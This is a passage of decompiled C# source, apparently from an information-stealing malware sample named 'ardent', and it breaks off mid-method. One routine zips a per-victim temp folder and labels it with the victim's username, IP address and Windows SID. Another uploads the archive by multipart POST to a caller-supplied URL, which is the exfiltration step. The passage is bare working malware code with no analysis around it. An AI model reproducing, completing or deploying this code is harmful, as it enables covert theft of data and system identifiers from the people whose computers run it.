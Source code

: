 ```csharp
using System;
using System.IO;
using System.Net;
using System.Text;
using Ionic.Zip;
using Main;

namespace Senders
{
	// Token: 0x02000003 RID: 3
	internal class DataDispatch
	{
		// Token: 0x06000004 RID: 4 RVA: 0x00002178 File Offset: 0x00000378
		public static void ZipCompression()
		{
			try
			{
				using (ZipFile zipFile = new ZipFile(Encoding.GetEncoding("cp866")))
				{
					zipFile.CompressionLevel = 9;
					ZipFile zipFile2 = zipFile;
					string[] array = new string[6];
					array[0] = "\n<========================================>\nPC:";
					array[1] = Variables.username;
					array[2] = "\nIP: ";
					int num = 3;
					IPAddress ip = Variables.IP;
					array[num] = ((ip != null) ? ip.ToString() : null);
					array[4] = "\nSID: ";
					array[5] = Variables.SID;
					zipFile2.Comment = string.Concat(array);
					zipFile.AddDirectory(Variables.temp + Variables.username);
					zipFile.Save(Variables.temp + Variables.username + "@ardent.zip");
					Variables.isZipCompressionSuccess = "Success!";
				}
			}
			catch (Exception ex)
			{
				Variables.isZipCompressionSuccess = ex.Message;
				Console.WriteLine(ex.Message);
			}
		}

		// Token: 0x06000005 RID: 5 RVA: 0x00002274 File Offset: 0x00000474
		public static void UploadMultipart(byte[] file, string filename, string contentType, string url)
		{
			try
			{
				WebClient webClient = new WebClient();
				string text = "------------------------" + DateTime.Now.Ticks.ToString("x");
				webClient.Headers.Add("Content-Type", "multipart/form-data; boundary=" + text);
				string @string = webClient.Encoding.GetString(file);
				string text2 = string.Format("--{0}\r\nContent-Disposition: form-data; name=\"document\"; filename=\"{1}\"\r\nContent-Type: {2}\r\n\r\n{3}\r\n--{0}--\r\n", new object[] { text, filename, contentType, @string });
				byte[] bytes = webClient.Encoding.GetBytes(text2);
				webClient.UploadData(url, "POST", bytes);
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex.Message);
			}
```
